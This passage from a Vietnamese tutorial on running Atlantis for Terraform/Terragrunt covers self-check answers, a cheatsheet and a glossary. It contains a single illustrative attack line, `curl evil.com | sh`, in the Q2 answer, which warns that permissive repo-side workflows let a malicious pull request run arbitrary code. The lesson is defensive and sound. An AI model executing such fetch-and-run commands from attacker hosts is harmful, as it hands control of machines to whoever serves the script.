Bọc UI sau OAuth, chỉ cho truy cập nội bộ — đừng để trang `/locks` phơi ra Internet.

### ✅ Best practice: Đẩy audit log sang SIEM

Atlantis phát ra log có cấu trúc — hãy ship sang Loki/Splunk để giữ lại các thông tin kiểm toán:

- Ai đã approve.
- Cái gì đã được apply.
- Mốc thời gian.

Giữ tối thiểu một năm để phục vụ compliance.

### ✅ Best practice: Cron phát hiện drift

Lập một cron chạy `terragrunt plan` định kỳ cho mọi project và cảnh báo khi có sai khác — chủ đề này được đào sâu ở bài kế tiếp.

---

## 🧠 Tự kiểm tra (Self-check)

Năm câu dưới chạm vào đúng những chỗ hay gây tranh cãi khi triển khai Atlantis. Bạn thử tự trả lời trước khi mở đáp án.

**Q1.** Vì sao Atlantis hơn việc tự dựng GitHub Actions cho IaC?

<details>
<summary>💡 Đáp án</summary>

Nếu tự dựng GitHub Actions cho Terraform, bạn thường viết một file `.github/workflows/terraform.yml`: khi mở PR thì chạy `terraform plan` và post output thành comment, khi merge thì chạy `terraform apply`.

Nghe thì gọn, nhưng vướng một loạt vấn đề:

1. **Khoá state**: GitHub Actions không quản lock xuyên các workflow. Hai PR chạy đồng thời → đua nhau (*race*).
2. **Giữ plan**: plan từ bước kiểm tra ở PR không được giữ lại tới bước apply → phải plan lại lúc apply (mà lúc đó state có thể đã đổi).
3. **Plan có chọn lọc**: khó tự nhận ra "chỉ VPC đổi, chỉ cần plan VPC".
4. **Quyền**: GitHub Actions chạy với `GITHUB_TOKEN` — khá lằng nhằng với module Terraform nằm chéo nhiều repo.
5. **Trigger apply**: thường gắn vào lúc merge, không có cơ chế "comment để apply" sẵn.
6. **Xem lock**: không có chỗ nào dễ nhìn để biết "cái gì đang bị khoá, bởi ai".
7. **Phát hiện drift**: phải dựng riêng một cron workflow.

Đổi lại, Atlantis giải đúng từng điểm trên:

- **Nhất quán plan–apply**: file plan được lưu lại, apply dùng đúng plan đó.
- **Lock theo từng project**: BoltDB theo dõi từng thư mục.
- **Phát hiện thay đổi thông minh**: `when_modified` kích hoạt theo từng project.
- **Comment để apply**: là workflow chuẩn.
- **Xem lock**: web UI liệt kê mọi lock.
- **Policy tích hợp**: hỗ trợ OPA, conftest.

**Đánh đổi**: Atlantis tốn công cài (chạy service, webhook), nhưng về lâu dài tốt hơn hẳn cho IaC nghiêm túc.

**Lai (hybrid)**: GitHub Actions lo fmt/lint/sec check, Atlantis lo plan/apply.

**Khuyến nghị**:
- Dưới 5 module + flow đơn giản: GitHub Actions.
- 10+ module, nhiều môi trường, làm team: Atlantis (hoặc Spacelift).
</details>

**Q2.** `atlantis.yaml` (repo-side) hay server-side workflow — nên dùng cái nào?

<details>
<summary>💡 Đáp án</summary>

**`atlantis.yaml` phía repo**:
- Nằm trong repo (`atlantis.yaml`).
- Tuỳ biến theo từng repo.
- Được version cùng code.
- Rủi ro: một PR độc hại có thể sửa luôn `atlantis.yaml`.

**Server-side workflow** (file config phía Atlantis):
- Định nghĩa ngay trong container Atlantis.
- Dùng chung cho mọi repo.
- Repo chỉ được **tham chiếu**, không sửa được.
- An toàn — repo không thể leo thang quyền.

**Cấu hình lai**:

Phía Atlantis (`server-side-config.yaml`):
```yaml
repos:
  - id: github.com/acme/infrastructure
    workflow: terragrunt   # only allow this workflow
    apply_requirements: [approved]
    allowed_overrides: [workflow, apply_requirements]
    allow_custom_workflows: false   # NO custom workflows from repo

workflows:
  terragrunt:
    plan: { ... }
    apply: { ... }
```

Phía repo (`atlantis.yaml`):
```yaml
projects:
  - name: dev-vpc
    dir: live/dev/vpc
    workflow: terragrunt
```

→ Repo quyết định **chạy ở thư mục nào**, server quyết định **chạy như thế nào**.

**Khuyến nghị**:
- Server-side: định nghĩa các workflow an toàn (terragrunt, terraform-prod kèm tfsec/policy).
- Repo-side: danh sách project, dir, các override được phép.
- `allow_custom_workflows: false` — chặn PR tự định nghĩa workflow mới.

**Anti-pattern**: `allow_custom_workflows: true` — bất kỳ PR nào cũng định nghĩa được workflow tuỳ ý (ví dụ `curl evil.com | sh`). Đây là lỗ hổng bảo mật.

→ Production: dùng server-side workflow + giới hạn chặt các override.
</details>

**Q3.** Multi-account: nên dùng 1 instance Atlantis hay N instance?

<details>
<summary>💡 Đáp án</summary>

**Phương án A: 1 Atlantis, AssumeRole sang nhiều tài khoản**:

Pod Atlantis giữ IAM role ở tài khoản **management**, rồi assume role sang các tài khoản dev/staging/prod.

```hcl
# In terragrunt
provider "aws" {
  assume_role {
    role_arn = "arn:aws:iam::${var.aws_account_id}:role/TerraformExecutionRole"
  }
}
```

**Ưu điểm**:
- Chỉ một Atlantis để bảo trì.
- Tham chiếu state chéo tài khoản dễ (chung một S3 bucket).

**Nhược điểm**:
- Bán kính thiệt hại (*blast radius*): Atlantis bị chiếm = cả multi-account thất thủ.
- Trộn lẫn các mối quan tâm.

**Phương án B: 1 Atlantis cho mỗi tài khoản môi trường**:

Tài khoản dev có Atlantis-dev, prod có Atlantis-prod, mỗi cái chỉ chạm tài khoản của nó.

**Ưu điểm**:
- **Cô lập mạnh**: sai sót ở dev không thể chạm prod.
- Production siết chặt hơn (không admin, đổi chậm rãi).
- Reviewer khác nhau theo từng môi trường.

**Nhược điểm**:
- Phải bảo trì 3 instance Atlantis.
- Thay đổi Terraform xuyên môi trường cần 2 PR (mỗi Atlantis một cái).

**Khuyến nghị 2026**:
- **Production nhiều tài khoản**: chọn phương án B. Đáng công vận hành.
- **Startup nhỏ**: phương án A. Một Atlantis là ổn nếu IAM siết chặt.

**Lai**: vẫn 1 Atlantis nhưng **tách K8s cluster** theo môi trường. Trải nghiệm như nhau, blast radius khác hẳn.
</details>

**Q4.** Lock kẹt — quy trình khôi phục ra sao?

<details>
<summary>💡 Đáp án</summary>

**Triệu chứng**:
- PR hiện `🔒 Locked by PR #123` cho một project.
- Comment `atlantis plan` → vẫn báo "still locked".
- PR #123 đã đóng/merge nhưng lock chưa nhả.

**Các bước khôi phục**:

**Bước 1**: Thử nhả qua comment:
```
# In any PR with same project
atlantis unlock
```

Nếu được, xong.

**Bước 2**: Web UI:
- Mở `https://atlantis.acmeshop.vn/locks`.
- Tìm lock của project.
- Bấm "Discard".

**Bước 3**: Khởi động lại pod Atlantis:
```bash
kubectl rollout restart deployment/atlantis -n atlantis
```

Lock thường được nhả khi shutdown.

**Bước 4**: Xoá sạch BoltDB:
```bash
kubectl exec -it atlantis-pod -- rm /atlantis-data/atlantis.db
kubectl rollout restart deployment/atlantis -n atlantis
```

⚠️ **Xoá toàn bộ trạng thái lock** — chỉ làm khi chắc không còn lock hợp lệ nào khác.

**Bước 5**: Lock DynamoDB (nếu kẹt ở tầng Terraform):
```bash
# Identify lock
aws dynamodb scan --table-name tflocks-table

# Force unlock
terragrunt force-unlock <lock-id>
```

**Phòng ngừa**:
- Pod Atlantis có healthcheck + tự restart.
- Webhook retry khi Atlantis trả 5xx.
- Theo dõi tuổi của lock — cảnh báo nếu quá 24h.

**Audit**: lock kẹt nghĩa là có bug trong Atlantis hoặc apply đã crash. Phải lục log điều tra.
</details>

**Q5.** State bị drift so với plan trong PR — lúc apply thì sao?

<details>
<summary>💡 Đáp án</summary>

**Kịch bản**:
- PR mở lúc 10am, Atlantis plan: "thêm subnet, không có gì khác".
- 11am: có người tạo tay subnet trong AWS Console (drift).
- 12pm: PR được approve, gõ `atlantis apply`.

**Atlantis làm gì**:
- Plan lại? Hay dùng plan đã lưu?

**Mặc định của Atlantis** (v0.27.0+):
- Dùng **file plan đã lưu** từ lần plan trước.
- Apply thực thi đúng plan đó.
- **Lệch nhau**: subnet mà PR định tạo có thể đã tồn tại → apply thất bại.

**Triệu chứng trong output apply**:
```
Error: Error creating subnet:
  subnet "subnet-abc" already exists
```

**Khôi phục**:
1. Comment `atlantis plan` → plan lại với state hiện tại.
2. Plan mới: nhận ra subnet đã tồn tại → no-op (hoặc import).
3. Apply plan mới.

**Vì sao lại lưu plan**:
- **Apply ≠ plan lại**: đảm bảo cái reviewer thấy đúng bằng cái được apply. Nếu state đổi giữa plan và apply, reviewer chưa hề duyệt những thay đổi đó.
- Audit: giữ vững cam kết "reviewer đã duyệt X, đã apply X".

**Phương án thay thế: plan lại ngay trước apply**:
- Cấu hình được trong workflow Atlantis.
- Linh hoạt hơn nhưng phá vỡ cam kết audit.

**Best practice**:
- Ngăn drift bằng kỷ luật Atlantis (cấm sửa tay).
- Cron phát hiện drift (bài kế tiếp) — cảnh báo khi có sai khác.
- Giữ khoảng cách giữa lúc mở PR và lúc apply càng ngắn càng tốt.

**Nếu apply thất bại do drift**: Atlantis comment lỗi, dev plan lại, soi diff, rồi apply lại.

→ Xử lý drift là chuyện kỷ luật quy trình cộng với công cụ.
</details>

---

## ⚡ Tra cứu nhanh (Cheatsheet)

Gom các lệnh hay dùng theo nhóm: cài bằng Helm, CLI cục bộ, comment trong PR, web UI; rồi tới các mẫu `atlantis.yaml` và config server-side.

```bash
# === Helm install ===
helm install atlantis runatlantis/atlantis -f values.yaml -n atlantis --create-namespace

# === Atlantis CLI ===
atlantis testdrive   # local test mode
atlantis server      # start server

# === PR comments ===
atlantis plan                          # plan all
atlantis plan -p <project>             # plan specific
atlantis plan -d <dir>                  # plan by dir
atlantis apply                          # apply all approved
atlantis apply -p <project>
atlantis unlock                         # release lock
atlantis approve_policies               # approve OPA violation
atlantis help

# === Web UI ===
# Open https://atlantis.acmeshop.vn
# Or http://atlantis.atlantis.svc:4141
```

```yaml
# === atlantis.yaml template ===
version: 3
automerge: false
projects:
  - name: <project-name>
    dir: <relative-path>
    workflow: <workflow-name>
    autoplan:
      when_modified: ["*.tf", "*.hcl"]
      enabled: true
    apply_requirements: [approved]

workflows:
  <name>:
    plan: { steps: [{run: ...}, {run: ...}] }
    apply: { steps: [{run: ...}] }
```

```yaml
# === Server-side config ===
repos:
  - id: github.com/acme/infrastructure
    apply_requirements: [approved, mergeable]
    workflow: terragrunt
    allowed_overrides: [workflow]
    allow_custom_workflows: false

workflows:
  terragrunt:
    plan: { ... }
    apply: { ... }
```

---

## 📚 Từ Điển Thuật Ngữ (Glossary)

| Thuật ngữ | Tiếng Việt | Giải thích |
|---|---|---|
| **Atlantis** | Server GitOps tự host | Workflow Terraform/Terragrunt dựa trên PR, tự host |
| **GitOps for IaC** | GitOps cho hạ tầng | Git là nguồn sự thật, PR kích hoạt apply |
| **Webhook** | Lời gọi callback | HTTP callback của GitHub khi có sự kiện PR |
| **`atlantis.yaml`** | Config phía repo | File cấu hình Atlantis đặt trong repo |
| **Server-side config** | Config phía server | Định nghĩa workflow phía Atlantis (an toàn) |
| **Repo-side config** | Config phía repo | Override theo từng repo (`atlantis.yaml`) |
| **`apply_requirements`** | Điều kiện apply | Các điều kiện trước khi apply (approved, mergeable) |
| **`autoplan`** | Tự động plan | Atlantis tự chạy plan khi mở PR / push |
| **`when_modified`** | Mẫu kích hoạt | Mẫu file kích hoạt autoplan |
| **Project** | Project | Một thư mục Terraform/Terragrunt Atlantis theo dõi |
| **Workflow** | Quy trình | Định nghĩa các bước plan/apply tuỳ biến |
| **Lock** | Khoá | Mutex cấp project của Atlantis (BoltDB/Redis) |
| **IRSA** | IAM role cho pod | IAM Roles for Service Accounts (danh tính pod trên AWS) |
| **Spacelift / env0** | Đối thủ thương mại | Lựa chọn thay Atlantis dạng SaaS |
| **Terraform Cloud** | Terraform SaaS | Dịch vụ Terraform có quản lý của HashiCorp |
| **terragrunt-atlantis-config** | Tool sinh config | Tool sinh atlantis.yaml từ repo Terragrunt |
| **conftest** | Tool kiểm policy | Chạy policy OPA trên JSON của Terraform |
| **PR-based workflow** | Quy trình qua PR | Mọi thay đổi đi qua PR, không trực tiếp |

---

## 🔗 Liên kết & Tài nguyên

### 🧭 Định hướng lộ trình học

- ⬅️ **Bài trước:** [Terragrunt — DRY Terraform cho multi-env multi-region](01_terragrunt-dry-multi-env.md)
- ➡️ **Bài tiếp theo:** [State management nâng cao + Drift detection — Cứu hạ tầng khỏi 200 resource bị xoá nhầm](03_state-advanced-and-drift.md)
- ↑ **Về cụm:** [IaC — Infrastructure as Code](../../README.md)

### 🧩 Các chủ đề có thể bạn quan tâm

- 🔁 [GitOps với ArgoCD — Git = Single Source of Truth](../../../ci-cd/lessons/02_intermediate/01_gitops-with-argocd.md) — cùng ý tưởng GitOps nhưng cho ứng dụng
- 🔁 [Secret management — Vault + External Secrets Operator + 12-factor](../../../ci-cd/lessons/02_intermediate/03_secret-management.md) — Vault để quản lý credentials cho Atlantis
- ↑ **Về cụm:** [Kubernetes — Intermediate cluster](../../../kubernetes/lessons/02_intermediate/README.md) — nơi deploy Atlantis

### 🌐 Tài nguyên tham khảo khác

- 📖 [Atlantis docs](https://www.runatlantis.io/)
- 📖 [Atlantis Helm chart](https://github.com/runatlantis/helm-charts)
- 📖 [terragrunt-atlantis-config](https://github.com/transcend-io/terragrunt-atlantis-config)
- 📖 [Spacelift](https://spacelift.io/) — đối thủ thương mại
- 📖 [env0](https://www.env0.com/) — đối thủ thương mại
- 📖 [Terraform Cloud](https://www.hashicorp.com/products/terraform)
- 📖 [Conftest](https://www.conftest.dev/) — policy OPA cho IaC
- 📖 [Atlantis tutorial](https://github.com/runatlantis/atlantis-tutorial) — hướng dẫn chính thức

---

## 📌 Nhật ký thay đổi (Changelog)

- **v1.0.0 (24/05/2026)** — Bản đầu tiên. Lesson 02 intermediate. Atlantis architecture + Helm install + GitHub webhook + atlantis.yaml + workflow + apply_requirements + RBAC + state lock + Terragrunt integration + comparison với Spacelift/env0/Terraform Cloud + hands-on. 8 pitfall + 4 best practice + 5 self-check + cheatsheet.
- **v1.1.0 (25/05/2026)** — Thêm lead-in trước Architecture + Pre-requisites + Helm install + Plan comment + Available commands.
- **v2.0.0 (07/06/2026)** — Viết lại toàn bộ prose sang tiếng Việt narrative theo gold-standard: Việt hoá tình huống mở bài, thêm lời dẫn trước mỗi code/bảng/list và câu phân tích sau, làm mượt các đoạn "điện tín" EN ở §1–§9, dịch toàn bộ block Components/Why GitOps/RBAC/lock/so sánh và 5 self-check; chuẩn hoá heading framework canonical (Self-check / Cheatsheet / Cạm bẫy thường gặp & Best practice / Glossary / Liên kết & Tài nguyên + 3 sub); metadata "Yêu cầu trước" + link tiêu đề thực; Glossary 3 cột; nav marker ⬅️/➡️/↑ + link-text = tiêu đề H1 thực, gỡ nhãn "(sắp viết)" cho bài 03 đã tồn tại; "Pros/Cons" → "Ưu điểm/Nhược điểm". Giữ nguyên 100% code/config/số liệu/diagram/tên công cụ EN.
- **v2.0.1 (11/06/2026)** — Sửa render: bọc 2 ví dụ comment GitHub (plan/apply) bằng fence 4 dấu backtick để khối code lồng nhau hiển thị đúng (trước đó dòng "Apply complete!" rớt ra ngoài code block + 1 code block rỗng).
